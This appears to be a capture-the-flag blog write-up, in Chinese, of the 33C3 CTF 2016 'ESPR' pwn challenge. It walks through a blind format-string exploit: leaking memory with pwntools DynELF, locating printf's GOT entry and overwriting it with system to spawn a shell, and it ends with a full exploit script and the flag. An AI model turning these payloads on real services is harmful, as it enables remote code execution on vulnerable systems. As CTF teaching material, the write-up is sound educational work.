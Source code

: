 ```yaml
---
title: '[33C3 CTF 2016] ESPR 150 '
author: bruce30262
tags:
  - pwn
  - format string
  - 33C3 CTF 2016
  - DynELF
  - GOT hijacking
categories:
  - write-ups
date: 2016-12-31 09:25:00
---
```

## Info  
> Category: pwn
> Point: 150
> Author: bruce30262 @ BambooFox

## Analyzing
這題沒有給任何的 binary，只有一張圖片，長得像這樣:
```
eat:                  sleep:
+-----------------+   +----------------+
| sub rsp, 0x100  |   | mov edi, 0x1   |
| mov rdi, rsp    |   | call _sleep    |
| call _gets      |   |                |
|                 |   |                |
+-----------------+   +----------------+
pwn:                  repeat:
+-----------------+   +----------------+
| mov rdi, rsp    |   |                |
| call _printf    |   | jmp eat        |
| add rsp, 0x100  |   |                |
|                 |   |                |
+-----------------+   +----------------+
```

hmmm......

可以發現到程式裡有兩個很明顯的漏洞: stack overflow 與 format string。這題 stack overflow 應該是打不了，因為有個無限迴圈在那邊，程式無法 return。因此這題的重點在於如何在沒有提供任何 binary 的情況下利用 format string 漏洞來 exploit 整個 service。 


## Exploit
在這裡不得不提 pwntools 裡頭一個相當強大的 module --- [DynELF](http://docs.pwntools.com/en/stable/dynelf.html)。透過 `DynELF` 以及程式當中的**任意讀漏洞**，pwntools 將有辦法幫助我們 leak 出遠端機器的 binary 資訊，包括 function 在 libc 中的位址，遠端 binary 的 `.dynamic` section 位址......等等。

要使用這個功能，首先我們必須提供一個 `leak` function，來讓 pwntools 有辦法透過這個 function leak 出任意位址的內容。這題的 `leak` function 可以透過程式當中的 format string 漏洞來實作:
```python leak
def leak(addr):
    payload = "%7$s.AAA"+p64(addr)
    r.sendline(payload)
    print "leaking:", hex(addr)
    resp = r.recvuntil(".AAA")
    ret = resp[:-4:] + "\x00"
    print "ret:", repr(ret)
    r.recvrepeat(0.2) # receive the rest of the string
    return ret
```

之後我們還必須提供一個 binary 裡頭的位址。透過輸入 `%30$p`，我們可以 leak 出遠端 binary 的 text address `0x40060d`。之後我們就可以透過 `DynELF` 來幫助我們 resolve 一些 libc 中的 function address。

首先我們會需要遠端的 `printf` 和 `system` 的 function address:
```python leak library addresses
d = DynELF(leak, 0x40060d)
system_addr = d.lookup('system', 'libc')
printf_addr = d.lookup('printf', 'libc')
​
log.success("printf_addr: "+hex(printf_addr))
log.success("system_addr: "+hex(system_addr))
```
因為每 leak 一次就要 sleep 一秒的關係，因此這邊 resolve 的過程會花些時間 ( pwntools 會需要 leak 出一堆 address 來 resolve function 的位址 )

```
[+] printf_addr: 0x7fb040a17550
[+] system_addr: 0x7fb040a066d0
```

有了遠端的 `printf` 和 `system` 的 address，我們就可以計算兩者之間的 offset，然後在下一次的連線中透過以下步驟來進行 exploit:
1. 先 leak 出 `printf@got.plt`，然後計算 `system` 的位址
2. 透過 format string 來 overwrite `printf` 的 GOT ( hijack 成 `system` )
3. 輸入 "sh"，執行 `system("sh")` 拿 shell

那麼該怎麼獲得 `printf`  GOT 的位址呢 ? 這裡我是先透過 `DynELF` 的 `dynamic` 功能來獲取 `.dynamic` section 的位址:
```python resolve .dynamic section
d = DynELF(leak, 0x40060d)
dynamic_ptr = d.dynamic
```

有了 `.dynamic` section 的位址，我們就可以透過 leak `.dynamic` section 的資訊來獲取 `.got.plt` 的位址:
```
Dynamic section at offset 0xe28 contains 24 entries:
  Tag        Type                         Name/Value
 0x0000000000000001 (NEEDED)             Shared library: [libc.so.6]
 0x000000000000000c (INIT)               0x400400
 0x000000000000000d (FINI)               0x400614
 0x0000000000000019 (INIT_ARRAY)         0x600e10
 0x000000000000001b (INIT_ARRAYSZ)       8 (bytes)
 0x000000000000001a (FINI_ARRAY)         0x600e18
 0x000000000000001c (FINI_ARRAYSZ)       8 (bytes)
 0x000000006ffffef5 (GNU_HASH)           0x400298
 0x0000000000000005 (STRTAB)             0x400330
 0x0000000000000006 (SYMTAB)             0x4002b8
 0x000000000000000a (STRSZ)              68 (bytes)
 0x000000000000000b (SYMENT)             24 (bytes)
 0x0000000000000015 (DEBUG)              0x0
 0x0000000000000003 (PLTGOT)             0x601000  <--- here
```
```python resolve PLTGOT
cnt = 0
while True:
    addr = dynamic_ptr + 0x10*cnt
    ret = leak(addr)
    if ret == "\x03\x00": #TYPE PLTGOT
        addr += 8
        for i in xrange(8):
            ret = leak(addr+i)
            print "ret:", ret.encode('hex')
        break
    else:
        cnt += 1
```
最後，透過 leak 出所有的 GOT entry，我們可以藉由比對 function address 的低 12 bit 來判斷 `printf@got.plt` 的位址:
```python resolve printf@got.plt
got = 0x601000
for i in xrange(8):
    addr = got + i*8
    ret = leak(addr)
    print "ret:", ret.encode('hex')
```

這下該有的位址都有了，可以開始 exploit 了:

```python exp_espr.py
#!/usr/bin/env python
​
from pwn import *
import subprocess
import sys
import time
​
HOST = "78.46.224.86"
PORT = 1337
# setting 
context.arch = 'amd64'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.log_level = 'INFO'
​
def leak(addr):
    payload = "%7$s.AAA"+p64(addr)
    r.sendline(payload)
    print "leaking:", hex(addr)
    resp = r.recvuntil(".AAA")
    ret = resp[:-4:] + "\x00"
    print "ret:", repr(ret)
    r.recvrepeat(0.2)
    return ret
    
if __name__ == "__main__":
​
    r = remote(HOST, PORT)
​
    printf_got = 0x601018
    printf_addr = u64(leak(printf_got).ljust(8, "\x00"))
    system_addr = printf_addr - 0x10e80 # remote
​
    log.success("printf_addr: "+hex(printf_addr))
    log.success("system_addr: "+hex(system_addr))
​
    byte1 = system_addr & 0xff
    byte2 = (system_addr & 0xffff00) >> 8
    log.success("byte1: "+hex(byte1))
    log.success("byte2: "+hex(byte2))
​
    payload = "%" + str(byte1) + "c" + "%10$hhn."
    payload += "%" + str(byte2-byte1-1) + "c" + "%11$hn."
    payload = payload.ljust(32, "A")
    payload += p64(printf_got) + p64(printf_got+1)
    r.sendline(payload)
    r.sendline("sh\x00")
    r.interactive()
```
​
flag: `33C3_f1rst_tshirt_challenge?!`



